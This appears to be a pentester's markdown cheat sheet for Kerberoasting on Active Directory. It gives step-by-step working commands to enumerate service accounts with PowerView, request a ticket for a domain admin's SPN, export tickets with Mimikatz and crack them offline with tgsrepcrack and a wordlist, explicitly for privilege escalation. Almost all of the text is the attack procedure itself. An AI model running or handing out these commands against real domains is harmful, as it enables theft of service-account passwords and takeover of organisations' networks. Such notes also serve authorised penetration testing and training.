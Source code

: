 # Kerberost

## Methodology/Steps
> 1. First find all the SPN accounts
> 2. Select SPN of a domain admin since we doing privilege escalation
> 3. Set the SPN as the argumentlist value and create a new object ( request a TGS )
> 4. Export the all the tickets by mimikatz
> 5. Keep a note of the file name where the ticket is stored of that service
> 6. Crack the ticket


## Find user accounts used as Service account
```powershell
Get-NetUser -SPN
Get-NetUser -SPN -Verbose | select displayname,memberof
```

## Request TGS 
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/computer.domain.local"
```

## Check if the TGS has been granted
```powershell
klist
```

## Export all the tickets
> Copy the file name of the ticket you exported; In this case its the file path for MSSQLSvc
```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

## tgsrepcrack
> **Request-SPNTicket** with PowerView can be used for cracking with JTR
```python
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\2-40a10000-user1@MSSQLSvc~computer.domain.localDOMAIN.LOCAL.kirbi
```
